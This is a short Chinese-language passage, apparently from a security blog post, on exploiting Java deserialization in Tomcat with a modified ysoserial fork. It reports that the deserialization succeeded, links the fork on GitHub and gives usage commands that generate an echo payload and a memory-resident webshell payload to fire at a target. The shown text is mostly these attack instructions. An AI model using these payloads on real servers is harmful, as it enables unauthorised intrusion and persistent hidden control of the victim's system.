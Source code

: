 可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![image](img/5bf059bdd01a59517bfda5e980835e6f.png)

![image](img/baa71dc01618ae6e2ea114477a5a6c07.png)

完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看 [ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
> 
> 例：
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatEchoInject > echo.payload 
> ```
> 
> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatShellInject > shell.payload 
> ```